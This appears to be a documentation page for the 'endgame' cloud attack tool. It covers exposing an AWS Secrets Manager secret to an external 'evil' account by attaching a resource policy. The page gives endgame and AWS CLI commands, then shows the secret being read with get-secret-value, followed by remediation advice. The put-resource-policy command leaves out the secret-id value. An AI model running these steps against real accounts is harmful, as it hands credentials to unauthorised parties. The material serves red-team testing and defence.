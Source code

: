 # Secrets Manager

## Steps to Reproduce

* **Option 1**: To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service secretsmanager --name test-resource-exposure
```

* **Option 2**: To expose the resource using AWS CLI, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil
export VICTIM_RESOURCE=arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure
export EVIL_POLICY='{"Version": "2012-10-17", "Statement": [{"Sid": "AllowCurrentAccount", "Effect": "Allow", "Principal": {"AWS": "arn:aws:iam::999988887777:user/evil"}, "Action": "secretsmanager:*", "Resource": ["arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure"]}]}'

aws secretsmanager put-resource-policy --secret-id --resource-policy $EVIL_POLICY
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws secretsmanager get-resource-policy --secret-id test-resource-exposure
```

* Observe that the contents of the exposed resource policy match the example shown below.

## Example

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::999988887777:user/evil"
      },
      "Action": "secretsmanager:*",
      "Resource": [
        "arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure"
      ]
    }
  ]
}
```

## Exploitation

* Authenticate to the `evil` account (In this example, `arn:aws:iam::999988887777:user/evil`)

* Run the following command in the victim account:

```bash
export VICTIM_RESOURCE=arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure

aws secretsmanager get-secret-value --secret-id $VICTIM_RESOURCE 
```

* Observe that the output resembles the following:

```json
{
  "ARN": "arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure",
  "Name": "test-resource-exposure",
  "VersionId": "DOGECOIN",
  "SecretString": "{\n  \"username\":\"doge\",\n  \"password\":\"coin\"\n}\n",
  "VersionStages": [
    "AWSCURRENT"
  ],
  "CreatedDate": 1523477145.713
}
```

## Remediation

* **Trusted Accounts Only**: Ensure that Secrets Manager secrets are only shared with trusted accounts, and that the trusted accounts truly need access to the secret.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Secrets Manager secrets. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-secrets-manager) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your Secrets**: Tightly control access to the following IAM actions:
  - [secretsmanager:PutResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_PutResourcePolicy.html): _Enables the user to attach a resource policy to a secret._
  - [secretsmanager:GetSecretValue](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_GetSecretValue.html): _Enables the user to retrieve and decrypt the encrypted data._
  - [secretsmanager:DeleteResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_DeleteResourcePolicy.html): _Enables the user to delete the resource policy attached to a secret._
  - [secretsmanager:GetResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_GetResourcePolicy.html): _Enables the user to get the resource policy attached to a secret._
  - [secretsmanager:ListSecrets](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_ListSecrets.html): _Enables the user to list the available secrets._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [aws secretsmanager get-resource-policy](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/get-resource-policy.html)
* [aws secretsmanager get-secret-value](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/get-secret-value.html)
* [aws secretsmanager put-resource-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/secretsmanager/put-resource-policy.html)
